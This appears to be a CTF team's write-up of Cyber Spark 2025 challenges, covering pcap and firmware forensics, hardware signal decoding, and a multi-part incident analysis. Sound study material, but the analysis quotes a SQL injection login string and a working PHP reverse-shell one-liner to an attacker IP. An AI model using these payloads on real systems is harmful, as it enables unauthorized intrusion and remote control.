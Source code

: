 ## 🚁 Cyber Spark CTF 2025 – Challenge Writeups

These are a few writeups I remember and found fun at **CyberSpark**, where my team **chmoula** proudly took **first place** 🏆!

### 🥇 1st Place – Y M

---

### 🔐 Signal for Sale

Upon analyzing the provided `traffic.pcapng` file in **Wireshark**, we spot a suspicious email-based conversation that hints at a covert transaction. One party requests a sample of the "product", and shortly after, a file named `dump.zip` is transferred.

**Steps:**

1. Export `dump.zip` from the capture (via HTTP or other relevant protocol).
2. Extract the archive and examine its contents: two `.debian` files.
3. The files are identified as:

   ```
   SMTP mail, Unicode text, UTF-8 text, with very long lines
   ```
4. One of the `.debian` files contains a **Base64-encoded image**.
5. Decode and save it as an image file (e.g., `.jpg`).
6. Calculate the **MD5 hash** of the image to retrieve the flag.

📦 **Flag**: `Spark{<MD5 of the decoded image>}`

This image becomes the lead-in for the next challenge.

---

### 🧐 Trail of Code

From the image found earlier, we observe a **camera** with a visible model label:
🔍 `SPR-KWBXCM-25`

1. Searching the model name on GitHub reveals:
   [github.com/BenMoussa25/SPR-KWBXCM-25](https://github.com/BenMoussa25/SPR-KWBXCM-25)

2. Download `firmware.bin` from the repository.

3. Run `binwalk firmware.bin` to analyze its contents:

   ```
   SquashFS filesystem, zImage, LZ4 data, certificates, and POSIX tar
   ```

4. Extract the filesystem:

   ```bash
   binwalk -e firmware.bin
   ```

5. Navigate to the extracted files and locate:

   ```
   app_settings.json
   ```

6. The **last line** of the config file contains the second flag.

🎯 **Flag**: `Spark{F1rmW4R3_B4S1C5_H1dd3n_S3Cr3t5}`

---

### 💬 DiscordBadyyyyy

In this challenge, we encounter a Discord bot that responds to the command `!flag`, but only if the user has the role **"hacker"**.

Attempts to assign the role directly within the original server were unsuccessful.

Instead, a creative workaround was used:

1. Extract the **bot ID** from the original server.
2. Add the bot to a **personal Discord server**.
3. Assign the **"hacker"** role manually to the user.
4. Execute the `!flag` command again.

This time, it responds with the flag.

🔑 **Flag**: `Spark{G00d_j0B_H4cker}`

---

### 🔹 Hardware: Logic

A physical device was emitting noise on **pins 3, 5, and 7**. Using a **logic analyzer**, signal traces were captured simultaneously on these three channels.

The challenge was to **identify the correct baud rate** for each channel in order to decode the serial data.

Once the correct baud rates were found, decoding the captured signals revealed the flag.

---

### ⛓️ Hardware: Chain

A `.sal` capture file was provided. It contained a serial signal that, once decoded with the right **baud rate**, revealed a link to a `task.vhdl` file.

This VHDL file defines a multiplexer `Mux_16vers1` which selects 8-bit slices from a 128-bit `Flag_bin` input, depending on the value of `Sel`.

It also contains a hint:

```vhdl
-- Hello hacker I run this code with those select values 
-- [0000,1110,1111,1101,1100,0011,0010,0100,0101,0110,0111,1001,1011,1010,1000,0001]
-- And i get this output
-- H&__V_L!wTf4trUD
```

By mapping each output character to the corresponding segment of `Flag_bin`, the original 128-bit flag can be reconstructed in the correct order:

| Sel  | Bits       | Position | Char |
| ---- | ---------- | -------- | ---- |
| 1000 | 127 .. 120 | 0        | U    |
| 1001 | 119 .. 112 | 1        | 4    |
| 1010 | 111 .. 104 | 2        | r    |
| 1011 | 103 .. 96  | 3        | t    |
| 1111 | 95 .. 88   | 4        | \_   |
| 1110 | 87 .. 80   | 5        | &    |
| 1101 | 79 .. 72   | 6        | \_   |
| 1100 | 71 .. 64   | 7        | V    |
| 0000 | 63 .. 56   | 8        | H    |
| 0001 | 55 .. 48   | 9        | D    |
| 0010 | 47 .. 40   | 10       | L    |
| 0011 | 39 .. 32   | 11       | \_   |
| 0111 | 31 .. 24   | 12       | f    |
| 0110 | 23 .. 16   | 13       | T    |
| 0101 | 15 .. 8    | 14       | w    |
| 0100 | 7 .. 0     | 15       | !    |

Reading the flag from MSB to LSB:

**Flag**: `Spark{U4rt_&_VHDL_fTw!}`

---

### 🏢 SecureCorp (9-Part Forensics Challenge)

#### 🧾 Part 1: First Registered Credentials

By filtering **POST requests** in Wireshark and searching for "register", we find:

```
username=cyberspark-user&password=superrandompwd
```

✅ **Flag**: `Spark{cyberspark-user_superrandompwd}`

#### 🌐 Part 2: Attacker IP Address

Using the previous packet, we identify the source IP:
✅ **Flag**: `Spark{192.168.111.128}`

#### 🔎 Part 3: Scanning Tool

Lots of noisy requests to various routes suggest usage of a directory scanner. The User-Agent or pattern confirms:
✅ **Flag**: `Spark{gobuster}`

#### 🔓 Part 4: Web Vulnerability

POST to login reveals:

```
password=' OR 1=1 --
```

✅ **Flag**: `Spark{SQLi}`

#### 💥 Part 5: Failed Reverse Shells and Port

Filtering requests to `/admin_panel` reveals multiple reverse shell attempts. 7 of them fail, and one succeeds on port **4765**.
✅ **Flag**: `Spark{7_4765}`

#### 🐚 Part 6: Working Reverse Shell SHA256

Decode the payload:

```
php -r '$sock=fsockopen("192.168.111.128",4765);shell_exec("bash <&3 >&3 2>&3");'
```

Calculate its SHA256.
✅ **Flag**: `Spark{<sha256_of_payload>}`

#### 📡 Part 7: Data Exfiltration Protocol

Payloads in ICMP packets indicate data smuggling using that protocol.
✅ **Flag**: `Spark{icmp}`

#### 🔐 Part 8: File Decryption

Extracted all ICMP payloads with `tshark`, decoded from hex to base64, then XORed with key:

```
SUPER_DUPER__SECRET_k3y_so_I_dont_f0rg33t
```

Recovered file: `vault.bin`, SHA256 gives the flag.
✅ **Flag**: `Spark{<sha256_of_vault>}`

#### 🧠 Part 9: Vault Analysis

The `vault.bin` was a **KeePass 1.x** database. Using `keepass2john` + `john`, password `1234567890` was recovered.

Credentials gave access to **Pastebin** and **Codeforces**. Final hint on Codeforces led to a **failed submission** containing the last flag.


---
